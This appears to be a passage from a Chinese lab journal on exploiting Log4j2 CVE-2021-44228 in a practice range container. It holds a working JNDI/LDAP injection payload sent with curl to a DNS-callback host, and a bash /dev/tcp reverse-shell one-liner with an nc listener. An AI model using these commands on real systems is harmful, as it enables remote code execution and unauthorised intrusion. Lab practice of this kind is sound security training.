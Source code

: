 - 原因：靶场容器似乎不允许 POST 请求，只能使用 GET 请求
- 解决：本质上是发送一个包含关键词的 HTTP 请求，可以使用 GET 请求替代 `curl "http://192.168.4.129:26678/hello?payload=%24%7Bjndi%3Aldap%3A%2F%2Fxco6xt.dnslog.cn%2Flihan3238%7D"`

#### 2. log4j-scan.py 报错

除了上述问题，`log4j-scan.py` 一开始使用命令 `python3 log4j-scan.py --request-type post -u http://192.168.182.129:43381/hello` 还有报错 `requests.exceptions.ConnectionError: HTTPSConnectionPool(host='interact.sh', port=443): Max retries exceeded with url: /register (Caused by NewConnectionError('<urllib3.connection.HTTPSConnection object at 0x7f8240f643d0>: Failed to establish a new connection: [Errno -3] Temporary failure in name resolution'))`

- 原因：`log4j-scan.py` 代码中 `interact.sh` 服务器只能通过 HTTP 访问，而脚本默认使用 HTTPS 访问
- 解决：增加 `--dns-callback-provider dnslog.cn` 参数，使用 `dnslog.cn` 作为 DNS 回调服务器

### 参考

- [NIST](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?name=CVE-2021-44228&vector=AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H&version=3.1&source=NIST)
- [cloudflare](https://blog.cloudflare.com/zh-cn/inside-the-log4j2-vulnerability-cve-2021-44228-zh-cn/)
- [GitHub Gist](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592)
- [interact.sh server unavailable](https://github.com/fullhunt/log4j-scan/issues/131)

- - -

## 24.7.10:  **漏洞靶标攻防** 深入

### 日志

#### 漏洞利用效果评估-反弹 Shell(log4j2 CVE-2021-44228)

##### 红队-漏洞利用实战 

1. 测试攻击机 Shell 连接靶标容器 

- `kaliattacker` 在攻击机上监听端口，等待靶标容器连接

```bash
nc -l -p 7777
```

- `kalitargetserver` 在靶标容器中执行反弹 Shell 命令

```bash
# 进入靶标容器
sudo docker exec -it recursing_hodgkin /bin/bash

# 执行反弹 Shell 命令
bash -i >& /dev/tcp/192.168.56.130/7777 0>&1
# 启动一个交互式 Bash shell，并将其输入( 0>&1 重定向输入到输出)和输出( >& 重定向标准错误输出到标准输出)都通过TCP连接重定向到 192.168.4.130 的 7777 端口。
```

- 测试效果：
